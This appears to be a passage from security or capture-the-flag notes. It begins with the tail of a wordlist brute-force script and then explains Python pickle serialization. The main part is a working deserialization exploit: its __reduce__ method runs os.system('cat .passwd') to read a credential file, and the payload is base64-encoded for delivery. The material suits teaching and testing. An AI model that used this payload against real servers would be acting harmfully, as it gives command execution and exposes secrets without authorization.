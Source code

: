 ```python
	wordlist = "./wordlist2.txt"
	main(target,port,username, wordlist)
```

# Pickle

Pickle is a library used to serialize and unserialize data.
A vulnerability exists because when unpickling, it calls the `__reduce__` function and the code is interpreted

**Serialize**
```python
import pickle
pickle.dumps(['pickle', 'me', 1, 2, 3])
```
Output :
```python
b'\x80\x04\x95\x19\x00\x00\x00\x00\x00\x00\x00]\x94(\x8c\x06pickle\x94\x8c\x02me\x94K\x01K\x02K\x03e.'
```

**Unserialize**
```python
import pickle
pickle.loads(b'\x80\x04\x95\x19\x00\x00\x00\x00\x00\x00\x00]\x94(\x8c\x06pickle\x94\x8c\x02me\x94K\x01K\x02K\x03e.')
```
Output
```
['pickle', 'me', 1, 2, 3]
```

### Pickle exploit example
Be careful, depending on the version of python used by the server, it can sometimes fail to loads even if the load data is valid
```python
import pickle, os, base64
class P(object):
	def __reduce__(self):
		return (os.system,("cat .passwd",))

payloadb64 = base64.b64encode(pickle.dumps(P()))

# print(payloadb64)
payload = base64.b64decode(payloadb64)

# print(payload)
pickle.loads(payload)
```

Pickle uses different `protocols` to convert your data to a binary stream.

- In python 2 there are [3 different protocols](https://docs.python.org/2/library/pickle.html#data-stream-format) (`0`, `1`, `2`) and the default is `0`.
- In python 3 there are [5 different protocols](https://docs.python.org/3/library/pickle.html#data-stream-format) (`0`, `1`, `2`, `3`, `4`) and the default is `3`.
```python
pickle.dump(your_object, your_file, protocol=2)
```
